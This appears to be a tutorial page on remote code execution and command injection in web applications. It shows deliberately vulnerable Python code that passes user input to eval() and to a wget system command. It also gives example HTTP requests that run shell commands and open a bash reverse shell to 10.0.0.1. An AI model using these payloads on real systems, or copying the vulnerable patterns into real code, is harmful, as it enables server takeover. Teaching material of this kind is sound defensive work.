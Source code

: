 This is a a program take the user input in through it to `eval()`

```python
def calculate(input):
 return eval("{}".format(input))
result = calculate(user_input.calc)
print("The result is {}.".format(result))
```

When operating as expected, the following user input would output the string The result is 3:

`GET /calculator?calc=1+2
Host: [example.com](http://example.com/)`

Imagine an attacker submitted the following HTTP request to the `calculate()` function:

```python
GET /calculator?calc="__import__('os').system('ls')"
Host: example.com
```

As a result, the program would execute `eval("**import**('os').system('ls')")` and return the results of the system command ls.

This input would cause the application to call `os.system()` and spawn a reverse shell back to the IP 10.0.0.1 on port 8080:

```python
GET /calculator?calc="__import__('os').system('bash -i >& /dev/tcp/10.0.0.1/8080 0>&1')"
Host: example.com
```

A *reverse shell* makes the target server communicate with the attacker’s machine and establish a remotely accessible connection allowing attackers to execute system commands.

Let’s say [example.com](http://example.com/) also has a functionality that allows you to download a remote file and view it on the website. To achieve this functionality, the application uses the system command `wget` to download the remote file:

```python
import os
def download(url):
 os.system("wget -O- {}".format(url))
display(download(user_input.url))
```

For example, if you submit the following request, the application would download the source code of Google’s home page and display it to you:

```python
GET /download?url=google.com
Host: example.com
```

For instance, the following input would cause the application to spawn a reverse shell back to the IP 10.0.0.1 on port 8080:

```python
GET /download?url="google.com;bash -i >& /dev/tcp/10.0.0.1/8080 0>&1"
Host: example.com
```
